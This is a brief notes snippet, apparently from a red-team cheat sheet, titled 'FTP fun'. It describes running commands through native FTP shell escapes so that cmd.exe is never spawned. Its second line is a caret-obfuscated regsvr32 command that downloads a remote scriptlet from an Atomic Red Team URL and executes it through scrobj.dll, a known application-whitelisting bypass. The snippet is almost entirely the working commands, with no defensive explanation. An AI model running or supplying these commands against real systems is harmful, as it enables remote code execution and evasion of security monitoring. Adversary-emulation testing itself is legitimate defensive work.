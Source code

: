 ### FTP fun

 Using native FTP to execute commands without using the cmd.exe process

```
!dir /ad > filelist.txt
!r^e^g^s^v^r^3^2.e^x^e /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/T1085.sct scrobj.dll
```



